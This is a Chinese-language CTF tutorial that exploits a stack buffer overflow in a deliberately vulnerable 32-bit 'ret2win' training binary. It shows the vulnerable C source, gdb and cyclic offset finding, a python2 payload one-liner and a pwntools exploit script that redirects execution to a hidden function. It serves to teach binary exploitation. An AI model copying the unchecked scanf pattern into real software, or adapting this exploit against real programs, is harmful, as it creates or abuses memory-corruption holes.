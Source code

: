 ﻿# 简介
“pwn"这个词的源起以及它被广泛地普遍使用的原因，源自于魔兽争霸某段讯息上设计师打字时拼错而造成的，原先的字词应该是"own"这个字，因为 ‘p’ 与 ‘o’ 在标准英文键盘上的位置是相邻的，PWN 也是一个黑客语法的俚语词，是指攻破设备或者系统。发音类似"砰”，对黑客而言，这就是成功实施黑客攻击的声音，而在ctf比赛里，pwn是对二进制漏洞的利用

# 获取文件信息
下载这个github库，进入03文件夹
```
https://github.com/Crypto-Cat/CTF/tree/main/pwn/binary_exploitation_101
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/a9c4e1dc956a46e5bf6113fd26c56a2b.png)

使用checksec工具可以查看程序更详细的信息

![在这里插入图片描述](https://img-blog.csdnimg.cn/d97d24f7804e4eeea3037b3f80b2ffe7.png)

这也和上一个文件相似，从上到下依次是
```
32位程序
部分RELRO，基本上所有程序都默认的有这个
没有开启栈保护
未启用nx，nx：数据执行
没有pie，意思是程序的内存空间不会被随机化
有读，写，和执行的段，意思是我们可以在程序里写入shellcode
```

我们运行程序看看，他叫我们输入字符，我们随意输入即可

![在这里插入图片描述](https://img-blog.csdnimg.cn/74116e8dc0af4aa8b5124516d9b564ff.png)

# 分析程序源代码
打开程序源代码

![在这里插入图片描述](https://img-blog.csdnimg.cn/24f14db039074401a7cc1183dbd4ba32.png)

```
#include <stdio.h>

void hacked()
{
    printf("This function is TOP SECRET! How did you get in here?! :O\n");   //成功破解的字符
}

void register_name()
{
    char buffer[16];    //定义了一个变量，名为buffer，有16个字节的缓冲区

    printf("Name:\n");   //输出字符"Name:
    scanf("%s", buffer);   //获取我们输入的字符，并存入到buffer变量里
    printf("Hi there, %s\n", buffer);     //输出字符Hi there和我们输入的变量
}

int main()
{
    register_name();   //调用上面的register_name自定义函数

    return 0;
}
```

可以看到，这题没有gets函数，也算是比较常见入门题，我们的目标就是让程序调用hacked自定义函数里的内容


# 覆盖程序函数的返回地址
## 动态调试

我们用gdb对程序进行动态调试
```
gdb ret2win
```
然后查看程序里调用的函数
```
info functions
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/a58556ad8ee44ac3b41e254711801ef6.png)

然后查看主函数register_name的汇编代码
```
disassemble register_name
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/2ab0a71b7c964584ba65fc9f7bc82e91.png)

输入命令cyclic就能获得测试用的字符串
```
cyclic 100
```
生成100个字符串，每四个字符的最后一个字符都不一样，用于测试覆盖程序的返回地址需要多少个字符

![在这里插入图片描述](https://img-blog.csdnimg.cn/9e134eef646f4e4ea73085a9694cfd27.png)

复制这些字符，然后运行程序并输入

![在这里插入图片描述](https://img-blog.csdnimg.cn/b53f4c84acc3401e97b4877dfc0ab92c.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/958988a3b4534aa1a59b12265c4a171e.png)



可以看到，程序已经报错了，而且里面原本的参数全被我们输入的值给覆盖了，这里需要注意的是ret指令，ret是子程序的返回指令，原本他要返回main函数，结果被我们覆盖了，返回到了其他不存在的地址，于是程序就报错了

EIP这个寄存器，他是程序的指针，指针就是寻找地址的，指到什么地址，就会运行该地址的参数，控制了这个指针，就能控制整个程序的运行

可以看到，eip寄存器里的值是haaa的十六进制，我们查一下haaa在刚刚生成的字符的第几个
```
cyclic -l haaa
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/e3da16753c874a20b442bcbd7c52a550.png)


说明我们要覆盖eip原本的返回地址并控制，就需要28个字符+想让程序跳转执行的地址

然后我们再次查看程序调用的函数地址
```
info functions
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/c82d634dceeb4e62b07d32e33cd98a2c.png)


hacked函数的地址为
```
0x08049182
```

知道了这些，现在我们就可以破解程序了，首先需要用python生成字符,还有一个知识点是在x86架构里，读取地址是由低到高的，十六进制0x08049182就要从最后一个开始写
```
python2 -c "print 'A'*28+'\x82\x91\x04\x08'"
```

然后将输出的值存放到一个文件里
```
python2 -c "print 'A'*28+'\x82\x91\x04\x08'" > exp
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/46fa65d5fdf64384a7993db9fe51ecb8.png)

然后运行程序，导入这个文件里的值

```
./ret2win < exp
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/7b100c87db4444aeaa3e8f4c3594bf67.png)

成功破解程序
## gdb调试
```
gdb ret2win
```

我们在主函数register_name最后一条汇编指令的地址下一个断点，来看看程序里都发生了什么
```
disassemble register_name
b *0x08049202
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/f9b1ef1d64f84d5b878aec02891b28df.png)

导入我们刚刚存放字符的文件后直接运行
```
run < exp
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/7c744331379246918ef2b534ba7137a1.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/c00073c72c12421d916c28acb9bf0c62.png)

可以看到，程序原本的值是main函数的地址然后退出程序，现在被我们覆盖成了hacked函数的地址，于是程序就返回到hacked地址执行指令
# pwntools脚本
```
from pwn import *   //导入pwntools模块

io = process('./ret2win')    //运行程序
io.sendline(b'A' * 28 + p32(0x08049182))   //程序运行后发送指定的字符串，格式为32位
print(io.recvall())   //接收输出
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/dd6423dd2f67446ab8646121e4384418.png)

成功破解程序
# 总结
有什么不会或者是错误的地方的可以私信我，看到必回
